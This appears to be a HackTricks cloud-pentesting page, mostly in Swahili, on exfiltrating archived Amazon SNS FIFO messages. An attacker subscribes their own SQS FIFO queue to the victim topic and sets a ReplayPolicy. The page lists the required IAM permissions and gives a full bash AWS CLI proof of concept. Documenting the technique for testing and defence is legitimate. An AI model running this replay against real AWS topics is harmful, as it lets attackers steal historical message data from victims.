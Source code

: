 # SNS FIFO Archive Replay Exfiltration via Attacker SQS FIFO Subscription

{{#include ../../../../banners/hacktricks-training.md}}

Matumizi mabaya ya Amazon SNS FIFO topic message archiving ili kureplay na exfiltrate ujumbe zilizochapishwa awali kwenda kwenye attacker-controlled SQS FIFO queue kwa kuweka subscription `ReplayPolicy`.

- Huduma: Amazon SNS (FIFO topics) + Amazon SQS (FIFO queues)
- Mahitaji: Topic lazima iwe na `ArchivePolicy` imewezeshwa (message archiving). Attacker anaweza `Subscribe` kwenye topic na `set attributes` kwenye subscription yao. Attacker anasimamia SQS FIFO queue na anaruhusu topic kutuma ujumbe.
- Athari: Ujumbe za kihistoria (published before the subscription) zinaweza kuwasilishwa kwa attacker endpoint. Replayed deliveries zinaletwa na alama `Replayed=true` katika envelope ya SNS.

## Masharti ya awali
- SNS FIFO topic yenye uhifadhi umewezeshwa: `ArchivePolicy` (mfano, `{ "MessageRetentionPeriod": "2" }` kwa siku 2).
- Mshambuliaji ana ruhusa za:
- `sns:Subscribe` on the target topic.
- `sns:SetSubscriptionAttributes` on the created subscription.
- Mshambuliaji ana SQS FIFO queue na anaweza kuambatisha queue policy inayoruhusu `sns:SendMessage` kutoka kwa topic ARN.

## Ruhusa za chini kabisa za IAM
- Kwenye topic: `sns:Subscribe`.
- Kwenye subscription: `sns:SetSubscriptionAttributes`.
- Kwenye queue: `sqs:SetQueueAttributes` kwa policy, na queue policy inyoruhusu `sns:SendMessage` kutoka kwa topic ARN.

## Shambulio: Replay archived messages to attacker SQS FIFO
Mshambuliaji anasubscribe SQS FIFO queue yao kwenye mhasiriwa SNS FIFO topic, kisha anaweka `ReplayPolicy` kwa timestamp ya zamani (ndani ya dirisha la archive retention). SNS mara moja ina-replay archived messages zinazofanana kwa subscription mpya na kuzipa alama `Replayed=true`.

Notes:
- The timestamp used in `ReplayPolicy` must be >= the topic's `BeginningArchiveTime`. Ikiwa ni mapema zaidi, API itarudisha `Invalid StartingPoint value`.
- Kwa SNS FIFO `Publish`, lazima utoe `MessageGroupId` (na ama dedup ID au wekesha `ContentBasedDeduplication`).

<details>
<summary>End-to-end CLI POC (us-east-1)</summary>
```bash
REGION=us-east-1
# Compute a starting point; adjust later to >= BeginningArchiveTime if needed
TS_START=$(python3 - << 'PY'
from datetime import datetime, timezone, timedelta
print((datetime.now(timezone.utc) - timedelta(minutes=15)).strftime('%Y-%m-%dT%H:%M:%SZ'))
PY
)

# 1) Create SNS FIFO topic with archiving (2-day retention)
TOPIC_NAME=htreplay$(date +%s).fifo
TOPIC_ARN=$(aws sns create-topic --region "$REGION" \
--cli-input-json '{"Name":"'"$TOPIC_NAME"'","Attributes":{"FifoTopic":"true","ContentBasedDeduplication":"true","ArchivePolicy":"{\"MessageRetentionPeriod\":\"2\"}"}}' \
--query TopicArn --output text)

echo "Topic: $TOPIC_ARN"

# 2) Publish a few messages BEFORE subscribing (FIFO requires MessageGroupId)
for i in $(seq 1 3); do
aws sns publish --region "$REGION" --topic-arn "$TOPIC_ARN" \
--message "{\"orderId\":$i,\"secret\":\"ssn-123-45-678$i\"}" \
--message-group-id g1 >/dev/null
done

# 3) Create attacker SQS FIFO queue and allow only this topic to send
Q_URL=$(aws sqs create-queue --queue-name ht-replay-exfil-q-$(date +%s).fifo \
--attributes FifoQueue=true --region "$REGION" --query QueueUrl --output text)
Q_ARN=$(aws sqs get-queue-attributes --queue-url "$Q_URL" --region "$REGION" \
--attribute-names QueueArn --query Attributes.QueueArn --output text)

cat > /tmp/ht-replay-sqs-policy.json <<JSON
{"Version":"2012-10-17","Statement":[{"Sid":"AllowSNSSend","Effect":"Allow","Principal":{"Service":"sns.amazonaws.com"},"Action":"sqs:SendMessage","Resource":"$Q_ARN","Condition":{"ArnEquals":{"aws:SourceArn":"$TOPIC_ARN"}}}]}
JSON
# Use CLI input JSON to avoid quoting issues
aws sqs set-queue-attributes --region "$REGION" --cli-input-json "$(python3 - << 'PY'
import json, os
print(json.dumps({
'QueueUrl': os.environ['Q_URL'],
'Attributes': {'Policy': open('/tmp/ht-replay-sqs-policy.json').read()}
}))
PY
)"

# 4) Subscribe the queue to the topic
SUB_ARN=$(aws sns subscribe --region "$REGION" --topic-arn "$TOPIC_ARN" \
--protocol sqs --notification-endpoint "$Q_ARN" --query SubscriptionArn --output text)

echo "Subscription: $SUB_ARN"

# 5) Ensure StartingPoint is >= BeginningArchiveTime
BEGIN=$(aws sns get-topic-attributes --region "$REGION" --topic-arn "$TOPIC_ARN" --query Attributes.BeginningArchiveTime --output text)
START=${TS_START}
if [ -n "$BEGIN" ]; then START="$BEGIN"; fi

aws sns set-subscription-attributes --region "$REGION" --subscription-arn "$SUB_ARN" \
--attribute-name ReplayPolicy \
--attribute-value "{\"PointType\":\"Timestamp\",\"StartingPoint\":\"$START\"}"

# 6) Receive replayed messages (note Replayed=true in the SNS envelope)
aws sqs receive-message --queue-url "$Q_URL" --region "$REGION" \
--max-number-of-messages 10 --wait-time-seconds 10 \
--message-attribute-names All --attribute-names All
```
</details>

## Impact
**Athari Zinazowezekana**: Mshambuliaji ambaye anaweza kujisajili kwenye SNS FIFO topic yenye archiving imewezeshwa na kuweka `ReplayPolicy` kwenye subscription yao anaweza mara moja kucheza tena na exfiltrate ujumbe wa kihistoria uliotumwa kwenye topic hiyo, si tu ujumbe uliotumwa baada subscription kuundwa. Ujumbe uliwasilishwa una jumuisha flag `Replayed=true` katika envelope ya SNS.

{{#include ../../../../banners/hacktricks-training.md}}
